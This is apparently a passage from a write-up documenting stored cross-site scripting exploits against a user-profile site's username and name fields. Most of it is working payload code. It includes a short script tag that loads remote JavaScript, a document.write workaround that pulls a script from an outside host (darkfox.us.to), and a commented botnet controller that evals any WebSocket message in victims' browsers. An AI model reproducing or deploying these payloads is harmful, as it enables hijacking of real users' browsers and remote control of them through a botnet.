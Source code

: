 ``` javascript
            a.src      = "http://darkfox.us.to:8000"
            a.autoplay = a.loop = a.controls = true;
            
            (document.querySelector(".profile-info span:nth-child(3)")
                || document.body)
              .appendChild(a);
        });
    else top.postMessage(u, "http://darkfox.us.to/");

 /*
  * Botnet controller to do anything and send any payload to any user, either
  * automatic or manual.  Concept only, any message that comes from the server
  * to the client would be execuited in the client's browser. Very modular and
  * simple to manage. In some cases this would require being in the outer frame
  * and wrapping the concept through another domain. XSS working and ignoring
  * all filters.
  *
  * WebSocket("ws://0x45a4dbd0:6120")
  *    .addEventListener("message",function(e){this.send((0,eval)(e.data))});
  */
})();
```

Username
--------

The username field can be anything you like. For example `logout.php` or
`DarkFox>` which would become unroutable due to apache taking the `>` for
a `404` instead of the requested user.

Due to the limitation for the length that the username can be, it was a little
tricky to get a good exploit as the smallest I can get to work breaks the page
as it can't close the script tag.

``` html
<script src=//ln-s.net/-COx>
```

As this breaks the page with it's `</script>` I had to tell the browser how to
re-add the removed content. This is what I did.

``` javascript
document.write("</script>DarkNFoxy" +
        document.querySelector("script[src='//ln-s.net/-COx']")
                .textContent.replace(/\<script/g,"DarkNFoxy"));
(s=document.createElement("script")).src="//darkfox.us.to/e/a.js";
document.body.appendChild(s)
```

Name
----

Effective method to get the exploit to run in multiple places. At first I was
unable to figure out a way to get code to run without breaking the normal
profile page. Using the field to produce an iframe was a success.
